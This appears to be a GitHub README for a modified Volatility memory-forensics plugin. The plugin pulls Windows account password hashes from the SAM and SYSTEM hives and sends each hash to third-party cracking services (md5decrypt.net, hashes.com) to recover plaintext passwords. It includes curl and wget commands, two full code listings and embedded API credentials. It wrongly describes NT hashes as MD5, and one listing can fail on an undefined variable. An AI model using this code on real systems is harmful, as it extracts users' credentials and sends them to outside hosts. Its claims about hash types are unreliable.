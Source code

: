 # hashdump
A Python-based tool for interacting with the Hashes.com API to decrypt hash values. This utility is designed for cybersecurity professionals, ethical hackers, and anyone interested in hash decryption. It simplifies sending hash values and retrieving their plaintext counterparts using the MD5 algorithm by integrating it with a third-party web application. 

Free API: md5decrypt.net

The first integration involves a free API provided by md5decrypt.net, a widely recognized platform for its efficiency in decrypting md5 hash type. This integration primarily serves users requiring basic hash decryption services without incurring costs. It demonstrates a commitment to providing accessible solutions while maintaining quality and efficiency.

Pseudo Code:
The _generator function takes two arguments: syshive (System Hive) and samhive (SAM Hive).
It checks the validity of these hives and retrieves necessary keys (bootkey and hbootkey).
For each user in the SAM hive, it retrieves their LM and NT hashes.
These hashes are converted into hexadecimal format.
The NT hash (ntout) is used to construct an API URL.
A GET request is sent to this URL, and the response, which presumably contains the cracked password, is stored in cracked_password.
The function then yields a tuple containing user details, including the cracked password.
The run function sets up the hives and calls _generator, organizing the returned data into a structured format for presentation or further processing.

Sending API request using curl:

``` curl -w '\n' "https://md5decrypt.net/en/Api/api.php?hash=5f4dcc3b5aa765d61d8327deb882cf99&hash_type=md5&email=rpanakadan2022@my.fit.edu&code=73c74dfc79d2bdb6" ```

![image](https://github.com/Rusheelraj/hashdump/assets/30828807/f892d7ef-80be-4342-87b3-eaeace94d054)

Sending API request using wget:

``` wget -qO- "https://md5decrypt.net/en/Api/api.php?hash=5f4dcc3b5aa765d61d8327deb882cf99&hash_type=md5&email=rpanakadan2022@my.fit.edu&code=73c74dfc79d2bdb6"; echo ```

![image](https://github.com/Rusheelraj/hashdump/assets/30828807/38a75f93-9621-4267-b31c-4bb86a48fca1)

In both cases, the hash "5f4dcc3b5aa765d61d8327deb882cf99" is decrypted into "password".

Modifying the hashdump plugin:

```
    def _generator(
        self, syshive: registry.RegistryHive, samhive: registry.RegistryHive
    ):
        if syshive is None:
            vollog.debug("SYSTEM address is None: No system hive found")
        if samhive is None:
            vollog.debug("SAM address is None: No SAM hive found")
        bootkey = self.get_bootkey(syshive)
        hbootkey = self.get_hbootkey(samhive, bootkey)
        if hbootkey:
            for user in self.get_user_keys(samhive):
                ret = self.get_user_hashes(user, samhive, hbootkey)
                if ret:
                    lmhash, nthash = ret

                    ## temporary fix to prevent UnicodeDecodeError backtraces
                    ## however this can cause truncated user names as a result
                    name = self.get_user_name(user, samhive)
                    if name is None:
                        name = renderers.NotAvailableValue()
                    else:
                        name = str(name, "utf-16-le", errors="ignore")

                    lmout = str(binascii.hexlify(lmhash or self.empty_lm), "latin-1")
                    ntout = str(binascii.hexlify(nthash or self.empty_nt), "latin-1")
                    rid = int(str(user.get_name()), 16)
                    api_url = f"https://md5decrypt.net/en/Api/api.php?hash={ntout}&hash_type=md5&email=rpanakadan2022@my.fit.edu&code=73c74dfc79d2bdb6"
                    response = requests.get(api_url)
                    cracked_password = response.text.strip()
                    yield (0, (name, rid, lmout, ntout, cracked_password))
        else:
            vollog.warning("Hbootkey is not valid")

    def run(self):
        offset = self.config.get("offset", None)
        syshive = None
        samhive = None
        kernel = self.context.modules[self.config["kernel"]]
        for hive in hivelist.HiveList.list_hives(
            self.context,
            self.config_path,
            kernel.layer_name,
            kernel.symbol_table_name,
            hive_offsets=None if offset is None else [offset],
        ):
            if hive.get_name().split("\\")[-1].upper() == "SYSTEM":
                syshive = hive
            if hive.get_name().split("\\")[-1].upper() == "SAM":
                samhive = hive

        return renderers.TreeGrid(
            [("User", str), ("rid", int), ("lmhash", str), ("nthash", str), ("cracked_password", str)],
            self._generator(syshive, samhive),
        )

```

Paid API: hashes.com

The second aspect of our integration encompasses a more advanced, paid service via the hashes.com API. This API operates on a credit-based system, offering more decryption algorithms and higher processing capabilities. It's tailored for more complex and demanding decryption tasks, making it an ideal choice for professional environments where precision and a wide array of functionalities are paramount.

Pseudo Code:
The _generator function takes two arguments: syshive (System Hive) and samhive (SAM Hive).
It checks the validity of these hives and retrieves necessary keys (bootkey and hbootkey).
For each user in the SAM hive, it retrieves their LM and NT hashes.
These hashes are converted into hexadecimal format.
The NT hash (ntout) is used to construct a payload for a POST request to the hashes.com API.
The response is checked for a successful status code (200). If successful, the JSON response is parsed.
The plaintext password is extracted from the response if available.
The function yields user details including the decrypted plaintext password.
The run function initializes syshive and samhive, identifies the relevant hives, and calls _generator to process each user.
The results are formatted into a grid for display or further processing.

Sending API request using curl:

```
curl -X POST -H "Content-type: multipart/form-data" \
> -F 'key=471f232d3aec5eb5a79c89bed2bdd17a' \
> -F 'hashes[]=e10adc3949ba59abbe56e057f20f883e' \
> https://hashes.com/en/api/search; echo
```

![image](https://github.com/Rusheelraj/hashdump/assets/30828807/f4113967-d88b-4bf3-adb8-6f3833927b4d)

Modifying the hashdump plugin:

```
    def _generator(
        self, syshive: registry.RegistryHive, samhive: registry.RegistryHive
    ):
        if syshive is None:
            vollog.debug("SYSTEM address is None: No system hive found")
        if samhive is None:
            vollog.debug("SAM address is None: No SAM hive found")
        bootkey = self.get_bootkey(syshive)
        hbootkey = self.get_hbootkey(samhive, bootkey)
        if hbootkey:
            for user in self.get_user_keys(samhive):
                ret = self.get_user_hashes(user, samhive, hbootkey)
                if ret:
                    lmhash, nthash = ret

                    ## temporary fix to prevent UnicodeDecodeError backtraces
                    ## however this can cause truncated user names as a result
                    name = self.get_user_name(user, samhive)
                    if name is None:
                        name = renderers.NotAvailableValue()
                    else:
                        name = str(name, "utf-16-le", errors="ignore")

                    lmout = str(binascii.hexlify(lmhash or self.empty_lm), "latin-1")
                    ntout = str(binascii.hexlify(nthash or self.empty_nt), "latin-1")
                    rid = int(str(user.get_name()), 16)
                    url = 'https://hashes.com/en/api/search'
                    files = {
                         'key': (None, '471f232d3aec5eb5a79c89bed2bdd17a'),
                         'hashes[]': (None, ntout)
                    }
                    response = requests.post(url, files=files)
                    if response.status_code == 200:
                        data = response.json()
                        if data['success'] and data['count'] > 0:
                           plaintext = data['founds'][0]['plaintext']

                    yield (0, (name, rid, lmout, ntout, plaintext))
        else:
            vollog.warning("Hbootkey is not valid")

    def run(self):
        offset = self.config.get("offset", None)
        syshive = None
        samhive = None
        kernel = self.context.modules[self.config["kernel"]]
        for hive in hivelist.HiveList.list_hives(
            self.context,
            self.config_path,
            kernel.layer_name,
            kernel.symbol_table_name,
            hive_offsets=None if offset is None else [offset],
        ):
            if hive.get_name().split("\\")[-1].upper() == "SYSTEM":
                syshive = hive
            if hive.get_name().split("\\")[-1].upper() == "SAM":
                samhive = hive

        return renderers.TreeGrid(
            [("User", str), ("rid", int), ("lmhash", str), ("nthash", str), ("plaintext", str)],
            self._generator(syshive, samhive),
        )

```







